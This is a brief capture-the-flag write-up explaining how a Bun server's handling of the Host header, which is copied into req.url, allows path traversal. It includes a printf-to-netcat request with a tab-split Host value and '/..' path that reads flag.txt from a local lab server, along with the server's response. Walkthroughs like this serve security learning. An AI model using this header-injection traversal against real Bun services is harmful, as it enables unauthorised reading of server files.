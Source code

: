n this challenge, the key vulnerability lies in how Bun handles the Host header, which is then inserted into req.url. This opens the door for bypassing checks and performing unexpected actions.
Step-by-Step Solution:

    Understanding the Vulnerability: The Host header value is placed into req.url, which allows us to manipulate the URL in creative ways. This means we can use a malicious Host header to craft requests that bypass checks and access resources like flag.txt.

    Exploiting the Vulnerability: You can send a specially crafted HTTP request to the target server, using netcat (nc) to simulate the HTTP request. The key is the malformed Host header that contains the path to the flag:

printf 'GET /.. HTTP/1.0\r\nHost: fakehost/fla\tg.txt\r\n\r\n' | nc -n 127.0.0.1 9090     
   

This results in a successful HTTP response:

HTTP/1.1 200 OK
Content-Type: text/plain;charset=utf-8
Date: Fri, 29 Aug 2025 12:25:40 GMT
Date: Fri, 29 Aug 2025 12:25:40 GMT
Content-Length: 14

CSL{fake_flag}   


